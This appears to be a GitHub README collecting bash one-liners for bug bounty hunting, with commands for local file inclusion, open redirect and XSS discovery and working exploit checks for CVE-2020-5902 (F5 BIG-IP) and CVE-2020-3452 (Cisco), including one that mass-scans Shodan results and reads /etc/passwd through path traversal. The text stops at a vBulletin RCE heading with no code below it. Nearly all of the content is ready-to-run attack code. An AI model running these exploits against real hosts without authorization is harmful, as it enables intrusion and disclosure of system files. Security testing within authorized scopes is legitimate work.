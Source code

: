 # Awesome One-liner Bug Bounty [![TheEyeOfCyber](https://awesome.re/badge-flat2.svg)](https://awesome.re)
> A collection of awesome one-liner scripts especially for bug bounty.

This repository stores and houses various one-liner for bug bounty tips provided by me as well as contributed by the community. Your contributions and suggestions are heartily♥ welcome.

---

### Local File Inclusion
> @dwisiswant0

```bash
gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect
> @dwisiswant0

```bash
export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

### XSS

```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
```

### CVE-2020-5902

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

### CVE-2020-3452
> @vict0ni
```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution
> @Madrobot_
